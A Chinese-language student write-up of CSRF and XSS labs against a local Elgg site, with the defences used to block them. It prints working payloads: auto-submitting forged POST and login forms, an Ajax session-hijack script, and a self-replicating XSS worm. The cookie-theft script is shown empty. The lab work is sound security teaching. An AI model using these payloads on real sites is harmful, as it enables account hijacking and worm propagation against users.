

# 1.1CSRF GET请求


更改/etc/apache2/sites-available/000-default.conf 如下

```
DirectoryIndex index.html
```


去/var/www/CSRF/Attacker 下建一个 index.html，

```
<html>
	<head>
		<title>
			xyx's malicious web
		</title>
	</head>
	<body>
		Hi, you are trapped!  :)
		
	</body>
</html>
```

向 Alice 发送带有恶意网址的邮件


登录 Alice 账户，查看收到的邮件


# 1.2使用 POST 请求的 CSRF 攻击

以 Alice 身份登录并尝试修改自身的个人资料，同时使用 HTTPHeaderLive抓取信息并分析，如下：


观察到 URL 值应为 /action/profile/edit ，提交的表单中需要包含需要修改信

息的用户的 GUID，获取 GUID 的方式为使用自己的账户登录并试图添加 Alice

为好友，用 HTTPHeaderLive 抓取，可以观察到发送的 GUID 为 42。因此编写恶

意网页信息如下：

去/var/www/CSRF/Attacker 写进index.html，

```
<html><body>
	<h1>This page forges an HTTP POST request.</h1>
	<script type="text/javascript">
		function post(url,fields) {
	
			var p = document.createElement("form");
		
			p.action = url;
			p.innerHTML = fields;
			p.target = "_self";
			p.method = "post";
			
			document.body.appendChild(p);
		
			p.submit();
		}
		function csrf_hack() {
			var fields;
			fields += "<input type='hidden' name='name' value='Alice'>";
			fields += "<input type='hidden' name='description' value='Hi, this is zyx'>";
			fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
			fields += "<input type='hidden' name='briefdescription' value=''>";
			fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
			fields += "<input type='hidden' name='location' value=''>";
			fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
			fields += "<input type='hidden' name='guid' value='42'>";
			var url = "http://www.csrflabelgg.com/action/profile/edit";
			post(url,fields);
		}
		
		window.onload = function() { csrf_hack();}
	</script>
</body></html>
```

用 Charlie 发邮件，点击链接，得到下图


# 1.3实现 login CSRF 攻击

以 Alice 身份登录并抓取登录表单信息，观察到使用 URL 为 /action/login ，

同时需要包含用户名和密码信息，如下图：


去/var/www/CSRF/Attacker 写进index.html，编写恶意网站内容如下：

```
<form method="post" action="http://www.csrflabelgg.com/action/login" class="elgg-form elgg-form-login">
	<fieldset>
		<input name="__elgg_token" value="3b7ba29a4a8fa5fb568389c21edf0fca" type="hidden">
		<input name="__elgg_ts" value="1527493857" type="hidden">
		<div>
			<label>Username or email</label>
			<input value="samy" name="username" class="elgg-input-text elgg-autofocus" type="text">
		</div>
		<div>
			<label>Password</label>
			<input value="seedsamy" name="password" class="elgg-input-password" type="password">
		</div>
		<div class="elgg-foot">
			<label class="mtm float-alt">
				<input name="persistent" value="true" type="checkbox">
				Remember me
			</label>
			<input value="Log in" class="elgg-button elgg-button-submit" type="submit">
			<ul class="elgg-menu elgg-menu-general mtm">
				<li><a class="registration_link" href="http://www.csrflabelgg.com/register">Register</a></li>
				<li><a class="forgot_link" href="http://www.csrflabelgg.com/forgotpassword">Lost password</a></li>
			</ul>
		</div>
	</fieldset>
</form>
<script>
	document.forms[0].submit();
</script>
```

编写诱导邮件并发送给 Alice，再用 Alice 登录，点击链接，发现立即登录

Samy 


# 1.4防御策略

首先进入目录/var/www/CSRF/Elgg/vendor/elgg/elgg/engine/classes/Elgg，在 ActionsService.php 文件中找到函数 gatekeeper()并注释掉 return true 语句，如下图：


## 测试任务 2：

点击链接后会不断进行 GET 请求，并得到错误信息提示如下图：


返回原始网页后出现大量的令牌错误提示，如下图


防御成功。但是该过程无法获取到令牌信息，这是因为无法绕过浏览器的访

问控制来使用攻击页面中的 JavaScript 访问任何内容。

## 测试任务 3：

点击链接后观察到不断发送 POST 请求，但并不能表单的自动提交，如下图


返回原始网页后观察到提示页面到期错误，如下图：


防御成功。抓到的 token 如下：


# 2.1从受害者的机器上盗取 Cookie

首先以 Samy 的身份登录并打开个人简介进行编辑，在 Brief description 中

添加如下脚本：

```
<script>
document.write('');
</script>
```


随后使用 Alice 账号登录，点击 Samy 主页并使用 nc -l 5555 -v 进行监听，

观察到成功得到 Alice 的 cookie 信息，如下图：


# 2.2使用 Ajax 脚本自动发起会话劫持

在 Samy 的 about me 中添加攻击脚本如下：

```
<script type="text/javascript">
	window.onload = function() {
		var elgg_ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
		var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
		var guid = "&guid=" + elgg.session.user.guid;
		var name = "&name=" + elgg.session.user.name;
		var desc = "&description=:):):):):):). zyx" + "&accesslevel[description]=2";
		var content = elgg_token + elgg_ts + name + desc + guid;
		var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
	
		if (elgg.session.user.guid != 47) {
			var Ajax = null;
			Ajax = new XMLHttpRequest();
			Ajax.open("POST",sendurl,true);
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send(content);
		}
	}
</script>
```

以 Alice 身份登录，点击 Samy 主页查看后使用 HTTPHeaderLive 抓取信息，

观察到发起了修改个人简介的请求，如下图：


个人简介被修改


# 2.3构造 XSS 蠕虫

修改脚本使其产生复制作用，脚本如下：

```
<script id="worm" type="text/javascript">
	window.onload = function() {
		var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
		var jscodeTag = document.getElementById("worm").innerHTML;
		var footerTag = "</"+"script>"
		var wormcode = encodeURIComponent(headerTag+jscodeTag+footerTag);
		var elgg_ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
		var elgg_token = "&__elgg_token=" + elgg.security.token.__elgg_token;
		var guid = "&guid=" + elgg.session.user.guid;
		var name = "&name=" + elgg.session.user.name;
		var desc = "&description=:):):):):):). zyx" + wormcode + "&accesslevel[description]=2";
		var content = elgg_token + elgg_ts + name + desc + guid;
		var sendurl = "http://www.xsslabelgg.com/action/profile/edit";
		if (elgg.session.user.guid != 47) {
			var Ajax = null;
			Ajax = new XMLHttpRequest();
			Ajax.open("POST",sendurl,true);
			Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
			Ajax.send(content);
		}
	}
</script>
```


以 Alice 身份登录后点击 Samy 的主页进行查看，观察到成功发送 POST，

如下图：


随后查看 Alice 主页，观察到 Alice 主页已包含相应的脚本，如下：


随后以 Charlie 身份登录并访问 Alice 主页，观察到其主页也被蠕虫病毒覆

盖，如下图：


# 2.4防御策略

先开启 HTMLawed 1.8 插件。

以 admin 账号登录 Elgg 随后点击右上角的 Account 、administration 、plugins

将该插件激活，点击 Activate，让其变为 Deactivate 如下：




测试蠕虫病毒是否有效，观察到此时 JavaScript 脚本被解析为文本而非以脚

本方式执行，如下图：


然后开启 htmlspecialchars

取 消 掉 /var/www/XSS/Elgg/vendor/elgg/elgg/views/default/output 目 录 下

text.php 、url.php 、dropdown.php 、email.php 对 htmlspecialchars() 函数调用的注

释。


随后测试蠕虫病毒，登录 Alice 账号，然后编辑 Alice 简介，在 about me 处 edit html，

重新输入脚本，然后保存，再点开 Alice 的编辑简介，点 edit html 查看，观察到 > 等字符

被转义为了 &lt 等内容，如下图

